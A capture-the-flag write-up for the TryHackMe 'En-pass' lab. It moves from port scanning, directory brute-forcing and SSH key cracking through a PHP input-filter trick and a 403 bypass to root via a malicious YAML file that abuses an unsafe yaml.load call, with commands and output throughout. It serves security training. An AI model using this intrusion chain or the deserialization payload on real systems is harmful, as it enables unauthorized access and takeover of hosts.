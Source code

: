 # Write-up for en-pass room TryHackMe
---
## Nmap port scanning
```bash
sudo nmap -sC -sV -p 22,8001 -oN port-scan 10.10.37.185
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-03 21:42 EDT
Nmap scan report for 10.10.37.185
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:bf:6b:1e:93:71:7c:99:04:59:d3:8d:81:04:af:46 (RSA)
|   256 40:fd:0c:fc:0b:a8:f5:2d:b1:2e:34:81:e5:c7:a5:91 (ECDSA)
|_  256 7b:39:97:f0:6c:8a:ba:38:5f:48:7b:cc:da:72:a8:44 (ED25519)
8001/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: En-Pass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.34 seconds
```
&nbsp;
## Directory bruteforcing
Recursively bruteforce the directory to find the */key* directory containing private key
```bash
ffuf -u http://10.10.37.185:8001/web/resources/infoseek/configure/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.37.185:8001/web/resources/infoseek/configure/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 403
________________________________________________

key                     [Status: 200, Size: 1766, Words: 9, Lines: 31]
```
&nbsp;
##### Here's the image
![private key](20210404084128.png)
&nbsp;
 Copy the key to file and crack it using john found the password being *7¡Vamos!*

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 2 needed for performance.
0g 0:00:00:06 DONE (2021-04-03 21:59) 0g/s 2328Kp/s 2328Kc/s 2328KC/s *7¡Vamos!
Session completed
```
&nbsp;
Doing a directory bruteforce and find */reg.php* and */zip*
```bash
gobuster dir -u http://10.10.37.185:8001/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.37.185:8001/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2021/04/03 22:11:35 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2563]
/web                  (Status: 301) [Size: 317] [--> http://10.10.37.185:8001/web/]
/reg.php              (Status: 200) [Size: 2417]                                   
/403.php              (Status: 403) [Size: 1123]                                   
/zip                  (Status: 301) [Size: 317] [--> http://10.10.37.185:8001/zip/]
```
&nbsp;
This is how */reg.php* looks like
![reg.php](20210404094429.png)
&nbsp;
Upon inspecting the source, found PHP code.
```php
if($_SERVER["REQUEST_METHOD"] == "POST"){
   $title = $_POST["title"];
   if (!preg_match('/[a-zA-Z0-9]/i' , $title )){
          
          $val = explode(",",$title);

          $sum = 0;
          
          for($i = 0 ; $i < 9; $i++){

                if ( (strlen($val[0]) == 2) and (strlen($val[8]) ==  3 ))  {

                    if ( $val[5] !=$val[8]  and $val[3]!=$val[7] ) 
            
                        $sum = $sum+ (bool)$val[$i]."<br>"; 
                }
          
          
          }

          if ( ($sum) == 9 ){
            

              echo $result;//do not worry you'll get what you need.
              echo " Congo You Got It !! Nice ";

        
            
            }
            

                    else{

                      echo "  Try Try!!";

                
                    }
          }
        
          else{

            echo "  Try Again!! ";

      
          }     
 
  }

```
Let's analyze the source code!!!
- The input must not be characters from a-z, A-Z, 0-9
- The input contains 9 words separated by a comma ','
- The first word has to be 2 characters and the last word is 3 characters long
- The sixth word can not be the same as the last word and the fourth word must not be the same as the eighth word
- If you do it right, it will print the password

&nbsp;
This is the input i constructed *!!,!,!,####,!,@@@@,!,\*\*\*,???*
and the password is *cimihan_are_you_here?*
![payload](20210404095503.png)
&nbsp;
Gobuster also found a 403.php which i bypassed it with *'..;'*. Upon bypassing it, it reveals another user called *'imsau'*
![password](20210404102407.png)
&nbsp;
Log in via ssh with username imsau and password we obtained
```bash
ssh -i id_rsa imsau@10.10.37.185
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-201-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

1 package can be updated.
1 of these updates is a security update.
To see these additional updates run: apt list --upgradable


$ bash
imsau@enpass:~$ 
```
&nbsp;
Manual enumeration found a python script located at /opt/scripts called **file.py**
```bash
imsau@enpass:/opt/scripts$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 31 19:40 .
drwxr-xr-x 3 root root 4096 Jan 31 16:34 ..
-r-xr-xr-x 1 root root  250 Jan 31 19:40 file.py
imsau@enpass:/opt/scripts$ cat file.py 
#!/usr/bin/python
import yaml


class Execute():
        def __init__(self,file_name ="/tmp/file.yml"):
                self.file_name = file_name
                self.read_file = open(file_name ,"r")

        def run(self):
                return self.read_file.read()

data  = yaml.load(Execute().run())
imsau@enpass:/opt/scripts$ 
```
&nbsp;
As the script is owned by root and it executes the /tmp/file.yml, we can create the file called *file.yml* to escalate the privilege to root.
```bash
imsau@enpass:/opt/scripts$ nano /tmp/file.yml
imsau@enpass:/opt/scripts$ cat /tmp/file.yml 
!!python/object/apply:os.system ["chmod +s /bin/bash"]

imsau@enpass:/opt/scripts$ 
```
&nbsp;
Then we can execute */bin/bash* as setuid with *-p* option and will give us a root privilege on the machine
```bash
imsau@enpass:/opt/scripts$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# 
```
